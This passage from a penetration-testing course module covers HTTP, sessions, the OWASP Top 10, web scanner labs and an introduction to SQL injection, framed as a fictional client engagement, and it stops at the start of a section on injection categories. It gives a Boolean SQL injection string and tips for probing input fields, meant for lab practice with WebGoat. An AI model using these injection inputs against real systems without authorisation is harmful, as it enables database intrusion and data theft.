Exploiting Application-Based Vulnerabilities
6.0 Introduction
6.0.1 Why Should I Take This Module?
Many of our clients here at Protego have developed and deployed web applications. Most organizations have customer interest forms or guestbooks on their sites. Even though this is a small thing, it is indeed a web application. Since web applications are open to the internet and often use a variety of platforms and services, they are very attractive targets for hackers.
I read in a report by Positive Technologies that the vast majority of web applications can be used to attack users, and many applications are the source of data breaches. User authentication and authorization are most commonly vulnerable. This is reflected by the position of Broken Access Control at the top of the OWASP top 10.
As penetration testers, it is important that we work hard to identify web application vulnerabilities, and sometimes exploit them if it is within the scope of our engagement with our clients. We will be scanning the Pixel Paradise website and web applications during our penetration testing engagement, and we expect that you will be involved in our efforts.

Web-based applications are everywhere. You can find them for online retail, banking, enterprise applications, mobile, and Internet of Things (IoT) applications. Thanks to advancements in modern web applications and related frameworks, the ways we create, deploy, and maintain web applications have changed such that the environment is now very complex and diverse. These advancements in web applications have also attracted threat actors.
In this module, you will learn how to assess and exploit application-based vulnerabilities. The Module starts with an overview of web applications and the OWASP Top 10. It also provides guidance on how you can build your own web application lab. In this Module, you will gain an understanding of injection-based vulnerabilities. You will also learn about ways threat actors exploit authentication and authorization flaws. Further, you will gain an understanding of cross-site scripting (XSS) and cross-site request forgery (CSRF/XSRF) vulnerabilities and how to exploit them. Finally, you will learn about clickjacking and how threat actors may take advantage of security misconfigurations, directory traversal vulnerabilities, insecure code practices, and attacks against application programming interfaces (APIs).
6.0.2 What Will I Learn in This Module?
Module Title: Exploiting Application-Based Vulnerabilities
Module Objective: Explain how to exploit application-based vulnerabilities.
| Topic Title | Topic Objective |
|---|---|
| Overview of Web Application-Based Attacks for Security Professionals and the OWASP Top 10 | Explain common web application attacks. |
| How to Build Your Own Web Application Lab | Describe common web application testing tools. |
| Understanding Business Logic Flaws | Explain how business logic flows enable attackers to exploit web applications. |
| Understanding Injection-Based Vulnerabilities | Use tools to conduct injection attacks. |
| Exploiting Authentication-Based Vulnerabilities | Use tools to exploit authentication-based vulnerabilities. |
| Exploiting Authorization-Based Vulnerabilities | Explain how authorization-based vulnerabilities are exploited. |
| Understanding Cross-Site Scripting (XSS) Vulnerabilities | Explain cross-site scripting vulnerabilities. |
| Understanding Cross-Site Request Forgery (CSRF/XSRF) and Server-Side Request Forgery Attacks | Explain cross-site request forgery (CSRF/XSRF) and server-side request forgery attacks. |
| Understanding Clickjacking | Explain clickjacking. |
| Exploiting Security Misconfigurations | Explain how security misconfigurations are exploited. |
| Exploiting File Inclusion Vulnerabilities | Explain how file inclusion vulnerabilities are exploited. |
| Exploiting Insecure Code Practices | Explain how to exploit insecure code. |
6.1 Overview of Web Application-Based Attacks for Security Professionals and the OWASP Top 10
6.1.1 Overview
Sometimes it seems that the whole world revolves around HTTP and its variants. Much of what we like to do on the web somehow uses HTTP. For that reason, it is probably the networking protocol that is most scrutinized by threat actors. It is important that we thoroughly understand how the protocol works and the vulnerabilities that it can create. Read ahead for a quick overview of the basic principles of how HTTP operates.

Web applications use many different protocols, the most prevalent of which is HTTP. This course assumes that you have a basic understanding of Internet protocols and their use, but this module takes a deep dive into the components of protocols like HTTP that you will find in nearly all web applications.
6.1.2 The HTTP Protocol
Let's look at a few facts and definitions before we proceed to details about HTTP:
- The HTTP 1.1 protocol is defined in RFCs 7230-7235.
- In the examples in this module, when we refer to an HTTP server, we basically mean a web server.
- When we refer to HTTP clients, we are talking about browsers, proxies, API clients, and other custom HTTP client programs.
- HTTP is a very simple protocol, which is both a good thing and a bad thing.
- In most cases, HTTP is categorized as a stateless protocol that does not rely on a persistent connection for communication logic.
- An HTTP transaction consists of a single request from a client to a server, followed by a single response from the server back to the client.
- HTTP is different from stateful protocols, such as FTP, SMTP, IMAP, and POP. When a protocol is stateful, sequences of related commands are treated as a single interaction.
- A server must maintain the state of its interaction with the client throughout the transmission of successive commands until the interaction is terminated.
- A sequence of transmitted and executed commands is often called a session.
Figure 6-1 shows a very simple topology that includes a client, a proxy, and a web (HTTP) server.

HTTP proxies act as both servers and clients. Proxies make requests to web servers on behalf of other clients. They enable HTTP transfers across firewalls and can also provide support for caching of HTTP messages. Proxies can perform other roles in complex environments, including Network Address Translation (NAT) and filtering of HTTP requests.
Later in this module, you will learn how to use tools such as Burp and the ZAP proxy to intercept communications between a browser or a client and a web server.
HTTP is an application-level protocol in the TCP/IP protocol suite, and it uses TCP as the underlying transport layer protocol for transmitting messages. HTTP uses a request/response model, which basically means that an HTTP client program sends an HTTP request message to a server, and then the server returns an HTTP response message, as demonstrated in Figure 6-2.

In Example 6-1, the Linux tcpdump utility (command) is being used to capture the packets from the client (192.168.78.6) to the web server to access the website http://web.h4cker.org/omar.html.
Example 6-1 — Packet Capture of an HTTP Request and Response Using tcpdump
In Example 6-1, you can see the packets that correspond to the steps shown in Figure 6-2. The client and the server first complete the TCP three-way handshake (SYN, SYN ACK, ACK). Then the client sends an HTTP GET (request), and the server replies with a TCP ACK and the contents of the page (with an HTTP 200 OK response). Each of these request and response messages contains a message header and message body. An HTTP message (either a request or a response) has a structure that consists of a block of lines comprising the message header, followed by a message body. Figure 6-3 shows the details of an HTTP request packet capture collected between a client (192.168.78.168) and a web server.

The packet shown in Figure 6-3 was collected with Wireshark. As you can see, HTTP messages are not designed for human consumption and have to be expressive enough to control HTTP servers, browsers, and proxies.
Download Wireshark and establish a connection between your browser and any web server. Is the output similar to the output in Figure 6-3? It is highly recommended that you understand how any protocol and technology really work behind the scenes. One of the best ways to learn this is to collect packet captures and analyze how the devices communicate.

When HTTP servers and browsers communicate with each other, they perform interactions based on headers as well as body content. The HTTP request shown in Figure 6-3 has the following structure:
- The method: In this example, the method is an HTTP GET, although it could
be any of the following:
- GET: Retrieves information from the server
- HEAD: Basically the same as GET but returns only HTTP headers and no document body
- POST: Sends data to the server (typically using HTML forms, API requests, and so on)
- TRACE: Does a message loopback test along the path to the target resource
- PUT: Uploads a representation of the specified URI
- DELETE: Deletes the specified resource
- OPTIONS: Returns the HTTP methods that the server supports
- CONNECT: Converts the request connection to a transparent TCP/IP tunnel.
- The URI and the path-to-resource field: This represents the path portion of the requested URL.
- The request version-number field: This specifies the version of HTTP used by the client.
- The user agent: In this example, Chrome was used to access the website. In the packet
capture you see the following:
- User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko)
- Chrome/66.0.3359.181 Safari/537.36
- Several other fields: accept, accept-language, accept encoding, and other fields also appear.
The server, after receiving this request, generates a response. Figure 6-4 shows the HTTP response.

The server response includes a three-digit status code and a brief human-readable explanation of the status code. Below that you can see the text data (which is the HTML code coming back from the server and displaying the website contents).
It is important that you become familiar with HTTP message status codes. W3Schools provides a very good explanation at https://www.w3schools.com/tags/ref_httpmessages.asp.
The HTTP status code messages can be in the following ranges:
- Messages in the 100 range are informational.
- Messages in the 200 range are related to successful transactions.
- Messages in the 300 range are related to HTTP redirections.
- Messages in the 400 range are related to client errors.
- Messages in the 500 range are related to server errors.
HTTP URL Structure
HTTP and other protocols use URLs – and you are definitely familiar with URLs because you use them every day. This section explains the elements of a URL so you can better understand how to abuse some of these parameters and elements from an offensive security perspective.
Consider the URL https://theartofhacking.org:8123/dir/test;id=89?name=omar&x=true. Let's break down this URL into its component parts:
- scheme: This is the portion of the URL that designates the underlying protocol to be used (for example, HTTP, FTP); it is followed by a colon and two forward slashes (//). In this example, the scheme is http.
- host: This is the IP address (numeric or DNS-based) for the web server being accessed; it usually follows the colon and two forward slashes. In this case, the host is theartofhacking.org.
- port: This optional portion of the URL designates the port number to which the target web server listens. (The default port number for HTTP servers is 80, but some configurations are set up to use an alternate port number.) In this case, the server is configured to use port 8123.
- path: This is the path from the "root" directory of the server to the desired resource. In this case, you can see that there is a directory called dir. (Keep in mind that, in reality, web servers may use aliasing to point to documents, gateways, and services that are not explicitly accessible from the server's root directory.)
- path-segment-params: This is the portion of the URL that includes optional name/value pairs (that is, path segment parameters). A path segment parameter is typically preceded by a semicolon (depending on the programming language used), and it comes immediately after the path information. In this example, the path segment parameter is id=89. Path segment parameters are not commonly used. In addition, it is worth mentioning that these parameters are different from query-string parameters (often referred to as URL parameters).
- query-string: This optional portion of the URL contains name/value pairs that represent dynamic parameters associated with the request. These parameters are commonly included in links for tracking and context-setting purposes. They may also be produced from variables in HTML forms. Typically, the query string is preceded by a question mark. Equals signs (=) separate names and values, and ampersands (&) mark the boundaries between name/value pairs. In this example, the query string is name=omar&x=true.
The URL notation here applies to most protocols (for example, HTTP, HTTPS, and FTP).
In addition, other protocols, such as HTML and CSS, are used on things like Simple Object Access Protocol (SOAP) and RESTful APIs. Examples include JSON, XML, and Web Processing Service (WPS) (which is not the same as the WPS in wireless networks).
A REST API (or RESTful API) is a type of application programming interface (API) that conforms to the specification of the representational state transfer (REST) architectural style and allows for interaction with web services. REST APIs are used to build and integrate multiple-application software. In short, if you want to interact with a web service to retrieve information or add, delete, or modify data, an API helps you communicate with such a system in order to fulfill the request. REST APIs use JSON as the standard format for output and requests. SOAP is an older technology used in legacy APIs that use XML instead of JSON. Extensible Markup Language Remote Procedure Call (XML-RPC) is a protocol in legacy applications that uses XML to encode its calls and leverages HTTP as a transport mechanism.
The current HTTP versions are 1.1 and 2.0. Figure 6-5 shows an example of an HTTP 1.1 exchange between a web client and a web server.

Figure 6-6 shows an example of an HTTP 2.0 exchange between a web client and a web server.

As a practice exercise, use curl to create a connection to the web.h4cker.org website. Try to change the version to HTTP 2.0 and use Wireshark. Can you see the difference between the versions of HTTP in a packet capture? See https://curl.haxx.se/docs/http2.html for curl documentation.
6.1.3 Practice — The HTTP Protocol
Label the parts of the URL https://thearthacking.io:8123/dir/test;id=89?name=omar&x=true by dragging the labels to the URL components.
| Label | URL Component |
|---|---|
| A — port | 8123 |
| B — scheme | https |
| C — path-segment-parameters | id=89 |
| D — path | dir/test |
| E — host | thearthacking.io |
| F — query-string | name=omar&x=true |
6.1.4 Web Sessions
A web session is a sequence of HTTP request and response transactions between a web client and a server. These transactions include pre-authentication tasks, the authentication process, session management, access control, and session finalization. Numerous web applications keep track of information about each user for the duration of a web transaction. Several web applications have the ability to establish variables such as access rights and localization settings. These variables apply to each and every interaction a user has with the web application for the duration of the session.
Web applications can create sessions to keep track of anonymous users after the very first user request. For example, an application can remember the user language preference every time it visits the site or application front end. In addition, a web application uses a session after the user has authenticated. This allows the application to identify the user on any subsequent requests and be able to apply security access controls and increase the usability of the application. In short, web applications can provide session capabilities both before and after authentication.
After an authenticated session has been established, the session ID (or token) is temporarily equivalent to the strongest authentication method used by the application, such as usernames and passwords, one-time passwords, and client-based digital certificates.
A good resource that provides a lot of information about application authentication is the OWASP Authentication Cheat Sheet, available at href="https://www.owasp.org/index.php/Authentication_Cheat_Sheet" target="_blank">https://www.owasp.org/index.php/Authentication_Cheat_Sheet.
In order to keep the authenticated state and track user progress, applications provide users with session IDs, or tokens. A token is assigned at session creation time, and it is shared and exchanged by the user and the web application for the duration of the session. The session ID is a name/value pair.
The session ID names used by the most common web application development frameworks can be easily fingerprinted. For instance, you can easily fingerprint PHPSESSID (PHP), JSESSIONID (J2EE), CFID and CFTOKEN (ColdFusion), ASP.NET_SessionId (ASP.NET), and many others. In addition, the session ID name may indicate what framework and programming languages are used by the web application.
It is recommended to change the default session ID name of the web development framework to a generic name, such as id.
The session ID must be long enough to prevent brute-force attacks. Sometimes developers set it to just a few bits, though it must be at least 128 bits (16 bytes).
It is very important that a session ID be unique and unpredictable. You should use a good deterministic random bit generator (DRBG) to create a session ID value that provides at least 256 bits of entropy.
There are multiple mechanisms available in HTTP to maintain session state within web applications, including cookies (in the standard HTTP header), the URL parameters and rewriting defined in RFC 3986, and URL arguments on GET requests. In addition, developers use body arguments on POST requests, such as hidden form fields (HTML forms) or proprietary HTTP headers. However, one of the most widely used session ID exchange mechanisms is cookies, which offer advanced capabilities not available in other methods.
Including the session ID in the URL can lead to the manipulation of the ID or session fixation attacks. It is therefore important to keep the session ID out of the URL.
Web development frameworks such as ASP.NET, PHP, and Ruby on Rails provide their own session management features and associated implementations. It is recommended to use these built-in frameworks rather than build your own from scratch, since they have been tested by many people. When you perform pen testing, you are likely to find people trying to create their own frameworks. In addition, JSON Web Token (JWT) can be used for authentication in modern applications.
This may seem pretty obvious, but you have to remember to encrypt an entire web session, not only for the authentication process where the user credentials are exchanged but also to ensure that the session ID is exchanged only through an encrypted channel. The use of an encrypted communication channel also protects the session against some session fixation attacks, in which the attacker is able to intercept and manipulate the web traffic to inject (or fix) the session ID on the victim's web browser.
Session management mechanisms based on cookies can make use of two types of cookies: non-persistent (or session) cookies and persistent cookies. If a cookie has a Max-Age or Expires attribute, it is considered a persistent cookie and is stored on a disk by the web browser until the expiration time. Common web applications and clients prioritize the Max-Age attribute over the Expires attribute.
Modern applications typically track users after authentication by using non-persistent cookies. This forces the session information to be deleted from the client if the current web browser instance is closed. This is why it is important to use nonpersistent cookies: so the session ID does not remain on the web client cache for long periods of time.
Session IDs must be carefully validated and verified by an application. Depending on the session management mechanism that is used, the session ID will be received in a GET or POST parameter, in the URL, or in an HTTP header using cookies.
If web applications do not validate and filter out invalid session ID values, they can potentially be used to exploit other web vulnerabilities, such as SQL injection if the session IDs are stored on a relational database or persistent cross-site scripting (XSS) if the session IDs are stored and reflected back afterward by the web application.
You will learn about SQL injection and XSS later in this module.
6.1.5 Practice — Web Sessions
You are conducting an initial test of a client's website and you notice that a 128-bit PHP session ID cookie is set on your testing computer. What practical recommendation will you make to your client to enhance security of the application?
6.1.6 OWASP Top 10
The Open Web Application Security Project (OWASP) is an international organization dedicated to educating industry professionals, creating tools, and evangelizing best practices for securing web applications and underlying systems. There are dozens of OWASP chapters around the world. It is recommended that you become familiar with OWASP's website (https://www.owasp.org) and guidance.
OWASP publishes and regularly updates a list of the top 10 application security risks. The OWASP Top 10 is an awareness document and a community effort (see href="https://owasp.org/www-project-top-ten/" target="_blank">https://owasp.org/www-project-top-ten/). You can also contribute and review via the OWASP GitHub repository at https://github.com/OWASP/Top10. This course covers the vulnerabilities highlighted in the OWASP Top 10 list. The best way to keep up with OWASP updates is by navigating directly to its website. This module covers vulnerabilities in the OWASP Top 10, such as injection vulnerabilities and cross-site scripting (XSS).
6.1.7 Lab — Website Vulnerability Scanning
As you saw with network security scanning, vulnerability scanners are very useful in penetration testing. They not only discover vulnerabilities, but frequently provide reference information that is useful for understanding how the vulnerabilities are exploited and how threats can be mitigated.
A website scanner typically focuses on discovering vulnerabilities in the website architecture, server configuration, and site resources. It can also detect vulnerabilities in web applications. In this lab, you will learn how to use the open-source web vulnerability scanner known as Nikto. It is a great tool, and you may want to add it to your penetration testing toolbox.
As we continue our engagement with Pixel Paradise, you will be scanning their website for vulnerabilities. Nikto is a "noisy" scanner, but that is OK because security personnel have been instructed to allow our scans at pre-arranged times. We will use more stealthy tools, at random, later in the test to determine if our scans are detected and blocked by the Pixel Paradise security team.

In this lab, you will complete the following objectives:
- Part 1: Launch Nikto and Perform a Basic Scan
- Part 2: Use Nikto to Scan Multiple Web Servers
- Part 3: Investigate Web Site Vulnerabilities
- Part 4: Export Nikto Results to a File
You have been using Nikto to scan the Pixel Paradise website. You have finished your work and would like to create an easy-to-read report that you can print out and add to the project file. What Nikto command will accomplish this?
6.1.8 Lab — Using the GVM Vulnerability Scanner
We will continue our web vulnerability scanning by turning to the Pixel Paradise digital store front web application. We will use the Greenbone Vulnerability Management (GVM) scanner because it has more advanced features for finding and managing vulnerabilities in web applications. Some people get confused about the relationship between the popular OpenVas tool and GVM. OpenVas is a component of GVM that is launched through the GVM interface.
Get familiar with GVM in our lab VM. You will use it to scan one of the virtual network servers that is hosting a web application. We hope that you will be able to participate in our efforts to find vulnerabilities in the Pixel Paradise web applications once you are up-to-speed on this powerful tool.
In this lab, you will complete the following objectives:
- Part 1: Scan a Host for Vulnerabilities
- Part 2: Exploit a Vulnerability Found by GVM
Note: The scanning will take some time and can take more than 30 minutes to complete.
Open Lab →In the lab, you used GVM and discovered that rexec was running on the target. This is vulnerable to remote session login attacks. What did you do to exploit the vulnerability? (Choose three.)
6.2 How to Build Your Own Web Application Lab
6.2.1 Overview
In Module 10, "Tools and Code Analysis," you will learn details about dozens of penetration testing tools. This section provides some tips and instructions on how you can build your own lab for web application penetration testing, including deploying intentionally vulnerable applications in a safe environment.
While most of the penetration testing tools covered in the course can be downloaded in isolation and installed in many different operating systems, several popular security-related Linux distributions package hundreds of tools. These distributions make it easy for you to get started without having to worry about the many dependencies, libraries, and compatibility issues you may encounter. The following are the three most popular Linux distributions for ethical hacking (penetration testing):
- Kali Linux: This is probably the most popular security penetration testing distribution
of the three. Kali is a Debian-based distribution primarily supported and maintained by Offensive Security
that can be downloaded from https://www.kali.org. You can easily install it in bare-metal systems,
virtual machines (VMs), and even devices like Raspberry Pi devices and Chromebooks.
Note
The folks at Offensive Security have created free training and a book that guides you in how to install it in your system (see https://kali.training).
- Parrot OS: This is another popular Linux distribution that is used by many pen testers and security researchers. You can also install it in bare-metal machines and in VMs. You can download Parrot from https://www.parrotsec.org.
- BlackArch Linux: This increasingly popular security penetration testing distribution is based on Arch Linux and comes with more than 1900 different tools and packages. You can download BlackArch Linux from https://blackarch.org.
There are several intentionally vulnerable applications and virtual machines that you can deploy in a lab (safe) environment to practice your skills. You can also run some of them in Docker containers. Omar Santos has included in his GitHub repository at https://h4cker.org/github numerous resources and links to other tools and intentionally vulnerable systems that you can deploy in your lab.
If you are just getting started, the simplest way to practice your skills in a safe environment is to install Kali Linux or Parrot OS in a VM and set up WebSploit Labs (see websploit.org). Several of the examples covered later in this module and elsewhere in this course use the tools and intentionally vulnerable applications running in WebSploit Labs.
6.3 Understanding Business Logic Flaws
6.3.1 Overview
Business logic flaws enable an attacker to use legitimate transactions and flows of an application in a way that results in a negative behavior or outcome. Most common business logic problems are different from the typical security vulnerabilities in an application (such as XSS, CSRF, and SQL injection). A challenge with business logic flaws is that they can't typically be found by using scanners or other similar tools.
The likelihood of business logic flaws being exploited by threat actors depends on many circumstances. However, such exploits can have serious consequences. Data validation and use of a detailed threat model can help prevent and mitigate the effects of business logic flaws. OWASP offers recommendations on how to test and protect against business logic attacks at href="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/01-Test_Business_Logic_Data_Validation" target="_blank">https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/01-Test_Business_Logic_Data_Validation.
MITRE has assigned Common Weakness Enumeration (CWE) ID 840 (CWE-840) to business logic errors. You can obtain detailed information about CWE-840 at https://cwe.mitre.org/data/definitions/840.html. That website also provides several granular examples of business logic flaws including the following:
- Unverified ownership
- Authentication bypass using an alternate path or channel
- Authorization bypass through user-controlled key
- Weak password recovery mechanism for forgotten password
- Incorrect ownership assignment
- Allocation of resources without limits or throttling
- Premature release of resource during expected lifetime
- Improper enforcement of a single, unique action
- Improper enforcement of a behavioral workflow
The MITRE website says that many business logic flaws are oriented toward business processes, application flows, and sequences of behaviors. These are not all represented in CWE as weaknesses related to input validation, memory management, and so on.
6.3.2 Practice — Business Logic Flaws
What are three examples of business logic flaws that could enable an attacker to use legitimate transactions and application flows in a way that will result in a negative outcome? (Choose three.)
6.4 Understanding Injection-Based Vulnerabilities
6.4.1 Overview
Part of testing a web application is checking for various injection vulnerabilities. A good place to look is any web page that accepts user input, such as login credentials, contact us response forms, forum post forms, etc. Input forms provide a way to get malicious code into systems. Sometimes the code will affect a single web page. Other times, the injected code may give access to privileged information that is stored in databases. We plan to challenge various web forms and login boxes that we have discovered on the Pixel Paradise site.
Hopefully, the web application coders at Pixel Paradise taken measures against injection vulnerabilities in their web application by creating filters that neutralize these threats. These measures include either sanitizing malicious elements from the input text or completely rejecting any potentially hazardous input. Part of testing for code injection vulnerabilities is challenging this type of defense.
A really dangerous type of attack involves injecting SQL statements to exploit databases. In order to test for SQL injection vulnerabilities, you need to have a good knowledge of SQL. You will focus on increasing your familiarity with SQL and then investigate other types of attacks in preparation for this phase of our penetration test.
Let's change gears a little and look at injection-based vulnerabilities and how to exploit them. An attacker takes advantage of code injection vulnerabilities by injecting code into a vulnerable system to change the course of execution and force an application or a system to process invalid data. Successful exploitation can lead to the disclosure of sensitive information, manipulation of data, denial-of-service (DoS) conditions, and more. The following are examples of injection-based vulnerabilities that are discussed in the following sections:
- SQL injection vulnerabilities
- HTML injection vulnerabilities
- Command injection vulnerabilities
- Lightweight Directory Access Protocol (LDAP) injection vulnerabilities
6.4.2 SQL Injection Vulnerabilities
SQL injection (SQLi) vulnerabilities can be catastrophic because they can allow an attacker to view, insert, delete, or modify records in a database. In injection attack, the attacker inserts, or injects, partial or complete SQL queries via the web application. The attacker injects SQL commands into input fields in an application or a URL in order to execute predefined SQL commands.
A Brief Introduction to SQL
As you may know, the following are some of the most common SQL statements (commands):
- SELECT: Used to obtain data from a database
- UPDATE: Used to update data in a database
- DELETE: Used to delete data from a database
- INSERT INTO: Used to insert new data into a database
- CREATE DATABASE: Used to create a new database
- ALTER DATABASE: Used to modify a database
- CREATE TABLE: Used to create a new table
- ALTER TABLE: Used to modify a table
- DROP TABLE: Used to delete a table
- CREATE INDEX: Used to create an index or a search key element
- DROP INDEX: Used to delete an index
Typically, SQL statements are divided into the following categories:
- Data definition language (DDL) statements
- Data manipulation language (DML) statements
- Transaction control statements
- Session control statements
- System control statements
- Embedded SQL statements
The W3Schools website has a tool called the Try-SQL Editor that allows you to practice using SQL statements in an "online database" (see href="https://www.w3schools.com/sql/trysql.asp?filename=trysql_select_all" target="_blank">https://www.w3schools.com/sql/trysql.asp?filename=trysql_select_all). You can use this tool to become familiar with SQL statements and how they may be passed to an application. Another good online resource that explains SQL queries in detail is href="https://www.geeksforgeeks.org/sql-ddl-dml-tcl-dcl" target="_blank">https://www.geeksforgeeks.org/sql-ddl-dml-tcl-dcl.
Figure 6-7 shows an example of using the Try-SQL Editor with an SQL statement.

The statement shown in Figure 6-7 is a SELECT statement that is querying records in a database table called Customers and that specifically searches for any instances that match %Saavedra% in the ContactName column (field). A single record is displayed.
You can use different SELECT statements in the Try-SQL Editor to become familiar with SQL commands.
Figure 6-8 takes a closer look at the SQL statement shown in Figure 6-7.

Web applications construct SQL statements involving SQL syntax invoked by the application mixed with user-supplied data. The first portion of the SQL statement shown in Figure 6-8 is not shown to the user; typically the application sends this portion to the database behind the scenes. The second portion of the SQL statement is typically user input in a web form.
If an application does not sanitize user input, an attacker can supply crafted input in an attempt to make the original SQL statement execute further actions in the database. SQL injections can be accomplished using user-supplied strings or numeric input. Figure 6-9 shows an example of using WebGoat to carry out a basic SQL injection attack. When the string Smith' or '1'='1 is entered in the web form, it causes the application to display all records in the database table to the attacker. This is an example of a Boolean SQL injection attack.

Figure 6-10 shows another SQL injection attack example. In this case, the attacker is using numeric input to cause the vulnerable application to dump the table records.

Download WebGoat or run WebSploit Labs and complete all the exercises related to SQL injection to practice in a safe environment.
One of the first steps when you find SQL injection vulnerabilities is to understand when the application interacts with a database. This is typically done with web authentication forms, search engines, and interactive sites such as e-commerce sites.
You can make a list of all input fields whose values could be used in crafting a valid SQL query. This includes trying to identify and manipulate hidden fields of POST requests and then testing them separately, trying to interfere with the query and to generate an error. As part of penetration testing, you should pay attention to HTTP headers and cookies.
As a penetration tester, you can start by adding a single quote (') or a semicolon (;) to the field or parameter in a web form. The single quote is used in SQL as a string terminator. If the application does not filter it correctly, you may be able to retrieve records or additional information that can help enhance your query or statement.
You can also use comment delimiters (such as -- or /* */), as well as other SQL keywords, including AND and OR operands. Another simple test is to insert a string where a number is expected.
You should monitor all the responses from an application. This includes inspecting the HTML or JavaScript source code. In some cases, errors coming back from the application are inside the source code and shown to the user.
SQL Injection Categories
SQL injection attacks can be divided into the following categories:
